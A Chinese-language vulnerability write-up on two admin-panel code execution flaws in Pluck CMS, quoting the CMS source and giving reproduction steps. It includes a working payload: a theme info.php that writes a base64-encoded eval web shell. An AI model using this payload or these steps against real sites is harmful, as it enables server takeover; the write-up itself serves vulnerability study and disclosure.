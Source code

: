 ```yaml
---
title: "Pluck CMS后台另两处任意代码执行"
id: zhfly3094
---
```


# Pluck CMS后台另两处任意代码执行

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

#### 第一处：过滤不严导致单引号逃逸

在function.php里面blog_save_post()函数

```
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
    //Check if 'posts' directory exists, if not; create it.
    if (!is_dir(BLOG_POSTS_DIR)) {
        mkdir(BLOG_POSTS_DIR);
        chmod(BLOG_POSTS_DIR, 0777);
    }

```
//Create seo-filename
$seoname = seo_url($title);

//Sanitize variables.
$title = sanitize($title, true);
$content = sanitizePageContent($content, false);

if (!empty($current_seoname)) {
    $current_filename = blog_get_post_filename($current_seoname);
    $parts = explode('.', $current_filename);
    $number = $parts[0];

    //Get the post time.
    include BLOG_POSTS_DIR.'/'.$current_filename;

    if ($seoname != $current_seoname) {
        unlink(BLOG_POSTS_DIR.'/'.$current_filename);

        if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
            rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
    }
}

else {
    $files = read_dir_contents(BLOG_POSTS_DIR, 'files');

    //Find the number.
    if ($files) {
        $number = count($files);
        $number++;
    }
    else
        $number = 1;

    if (empty($force_time))
        $post_time = time();
    else
        $post_time = $force_time;
}

//Save information.
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time;

save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);

//Return seoname under which post has been saved (to allow for redirect).
return $seoname; 
``` `}` 
```

其中

```
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time; 
```

$title $content 均被过滤，$post_time不可控，$category可控

所以只要把$cont2变成我们的payload即可

![image](../img/fe4801c94da7b443548123c5d1d72a9c.png)

![image](../img/4ec092677a82e216b0cf022ed2fb3d95.png)

#### 第二处：安装模版+文件包含导致任意命令执行

很多CMS都会在安装模版的时候getshell，那么这里笔者也发现了类似的漏洞。

##### 1、直接访问失败

首先准备一个shell.php里面是我们的phpinfo();

然后打包成shell.zip，直接上传主题

![image](../img/619fe43453e4d655b038909caf52789c.png)

![image](../img/33761b09b9ec5228c08b82aa54c9d6e5.png)

发现确实上传并且解压成功

但是由于目录下有.htaccess文件，直接把php设置为不可解析，所以无法直接访问

![image](../img/52050ca1f9ea0d6460b41e39efdca12f.png)

![image](../img/1b706377d6055a0ad119afd558437d06.png)

##### 2、文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到admin.php中关于theme的部分

![image](../img/5210d47cb5a650a9dbf052125e6f2a35.png)

跟进 data/inc/theme.php，发现调用了get_themes()方法

![image](../img/9f89adc92ab7f37b0372164968964bcc.png)

跟进 functions.all.php，查看get_themes()方法

```
function get_themes() {
    $dirs = read_dir_contents('data/themes', 'dirs');
    if ($dirs) {
        natcasesort($dirs);
        foreach ($dirs as $dir) {
            if (file_exists('data/themes/'.$dir.'/info.php')) {
                include_once ('data/themes/'.$dir.'/info.php');
                $themes[] = array(
                    'title'   => $themename,
                    'dir' => $dir
                );
            }
        }
        return $themes;
    }
    else
        return false;
} 
```

发现会遍历data/themes/下所有主题目录，并且包含他的info.php文件

此时info.php可控，就导致了任意代码执行。

##### 3、利用方法

首先准备一个info.php

```
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?> 
```

然后打包压缩成shell.zip

上传安装主题，然后点击回到主题页，此时触发文件包含。

![image](../img/30e9e23b020b6bd582aa49de97f4ed41.png)

![image](../img/e3720abf1fe9e2db60effb630e08cfa6.png)

![image](../img/fe9a1ace5f763ddbb324ccbae325638c.png)